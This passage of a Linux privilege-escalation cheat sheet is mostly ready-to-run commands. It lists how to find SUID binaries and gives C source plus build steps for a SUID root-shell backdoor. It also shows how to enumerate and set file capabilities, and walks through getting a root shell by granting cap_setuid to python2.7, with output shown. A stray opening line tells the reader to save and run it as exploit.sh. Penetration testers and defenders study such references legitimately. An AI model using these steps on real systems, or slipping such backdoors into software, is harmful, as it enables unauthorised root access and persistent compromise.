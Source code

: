 save this code as exploit.sh and execute to escalate


### FIND SUID BINARIES

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```
```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```


### CREATE A SUID BINARY

```
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
```
```
gcc -o /tmp/suid /tmp/suid.c  
```
```
sudo chmod +x /tmp/suid 
```
```
sudo chmod +s /tmp/suid 
```
&nbsp;
## 9] Capabilities

### LIST CAPABILITIES OF BINARIES

```
╭─local_host@kali ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### EDIT CAPABILITIES

```
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### INTERESTING CAPABILITIES

Having the capability =ep means the binary has all the capabilities.

```
$ getcap openssl /usr/bin/openssl
openssl=ep
```

Example of privilege escalation with  `cap_setuid+ep`

```
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```
